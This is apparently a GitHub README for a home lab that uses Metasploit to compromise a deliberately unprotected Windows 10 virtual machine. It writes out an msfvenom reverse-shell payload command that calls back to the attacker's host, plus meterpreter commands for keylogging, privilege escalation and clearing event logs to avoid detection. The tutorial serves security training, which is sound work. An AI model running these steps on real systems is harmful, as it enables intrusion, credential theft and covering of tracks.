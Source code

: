 <h1>Metasploit Penetration Test Lab</h1>

<img src="https://i.imgur.com/EA64fK5.png" align="center">
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMware Worksation Player and install it according to your actual physical machine.</p>
<img src="https://i.imgur.com/wrv1wnv.png"/>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMware Workstation Player, and select “New”.</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine.</p>
<img src="https://i.imgur.com/H3F2kd5.png"/>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine.</p>
<img src="https://i.imgur.com/Nv9aCEx.png"/>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “Exploitation Tools”. Select Metasploit to launch the terminal.</p>
<img src="https://i.imgur.com/bbVYw9a.png"/>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP of Kali Linux Machine) LPORT=4444 -f exe > thisismalicious.exe” and hit enter. </p>
<img src="https://i.imgur.com/tq1tn6m.png"/>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST (Kali Linux IP)”. Enter “show options" again to see the updated configuration.</p>
<img src="https://i.imgur.com/54zxALk.png"/>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell! </p>
<img src="https://i.imgur.com/Ydx5DE7.png"/>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester”</p>
<img src="https://i.imgur.com/mSzlGfX.png"/>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>- Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test.</p>
<img src="https://i.imgur.com/CeDsCEZ.png"/>
<p>- Note that in each scenario, the suggester could find many exploits that a machine is vulnerable to, or it could only find a couple or none at all. A rule of thumb is to try each exploit that the suggester recommends 3 times, and if the third attempt is unsuccessful, move on to the next recommended exploit.
<p>- If we go back to our session, we can run a variety of commands to get a lot of information from the VM. "Keyscan_start" & "Keyscan_dump" will start a keylogger on the victim VM and dump the input to our shell.</p>
<img src="https://i.imgur.com/eu08Hdi.png"/>
<p>- Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”.</p>
<img src="https://i.imgur.com/YiXNkIq.png"/>
<p>- Note how in my instance, the "getsystem" command was unsuccessful and my account that I have a meterpreter shell on is still an administrator. This is why we try to use the exploit suggester to see if there are vulnerabilities to escalate our privilege.</p>
<p>- Feel free to play around with the commands in meterpreter to see what it can accomplish by entering the "help" command. </p>
<p>- Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. </p>
<img src="https://i.imgur.com/XqyTXGp.png"/>
<p>- Note how the number of the Application logs goes from 589 to 0 when I run the "clearev" command.</p>
<img src ="https://i.imgur.com/t7MUxiQ.png"/>
<p>- There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
